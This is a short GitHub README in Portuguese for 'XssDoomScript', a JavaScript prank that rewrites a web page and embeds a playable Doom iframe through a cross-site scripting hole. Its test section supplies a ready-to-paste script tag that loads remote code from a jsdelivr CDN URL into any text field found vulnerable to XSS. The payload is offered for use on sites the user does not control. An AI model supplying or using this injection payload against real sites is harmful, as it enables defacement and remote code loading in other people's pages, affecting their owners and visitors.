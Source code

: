 # XssDoomScript 
## Um código javascript simples, usado para alterar aspectos da página por meio de vulnerabilidade XSS</h2>

<p>O código consiste em um javasctipt para alterar a página e injetar um iframe jogável do jogo Doom.</br> 
Alguns atributos como cor de fundo, resolução do iframe e texto a serem exibido podem ser alterados no cabeçalho de constantes do script</p>

## Como testar o script ? 
<p>Caso já tenha achado alguma caixa de texto que possui a vulnerabilidade XSS explorável, apenas cole o seguinte código :  '<script src='https://cdn.jsdelivr.net/gh/Daniel-kenobi/XssDoomScript@main/script.js'></script>' . Após isso o script já irá alterar os aspectos da página</p>